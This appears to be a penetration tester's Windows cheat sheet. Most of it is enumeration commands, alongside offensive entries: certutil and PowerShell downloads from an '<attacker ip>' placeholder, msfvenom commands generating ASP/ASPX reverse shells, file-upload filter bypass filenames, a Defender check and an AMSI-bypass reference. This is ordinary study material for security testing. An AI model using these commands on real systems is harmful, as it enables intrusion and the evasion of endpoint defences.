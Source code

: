 OS architecture 

- powershell

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

- cmd

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

[displays file ownership information](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir)

```cmd
dir /q /a
```

privileges information

```cmd
whoami /priv
whoami /all
whoami /groups
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<attacker ip>/<file>" "C:\Users\<User Account>\Desktop\<file>"
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
Powershell Invoke-WebRequest -OutFile C:\Users\<User Account>\Desktop\<file> -Uri http://<attacker ip>/<file>
```

checking if Windows Defender is active

```powershell
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
#   try filename "rev.aspx..... .. . . ."
#   try filename "rev.aspx.png"
#   try web.config (File_Upload_Bypass.md)
```

get all drives

```powershell
# powershell
gdr -PSProvider 'FileSystem'
```

```cmd
REM cmd
wmic logicaldisk get deviceid, volumename, description
```

SMB

```shell
nmap -p 445 --script vuln <target ip>
```

Kali provides [Windows executables](https://www.kali.org/tools/windows-binaries/)

```shell
# /usr/share/windows-resources/binaries
find / -name whoami.exe 2>/dev/null
windows-binaries -h
```

UNZIP

```cmd
REM Windows 10 build 17063 or later
tar -xf <zip file>
```

Bypass AMSI Powershell (PEN-300)

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```
1. one liners to multiple lines
2. hex encoding
```

list firewall rules

```cmd
Netsh advfirewall firewall show rule dir=in name=all
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

copy file from net share folder

```powershell
Copy-Item -path "\\<target ip or hostname>\<folder($)>" -destination .\ -Recurse
```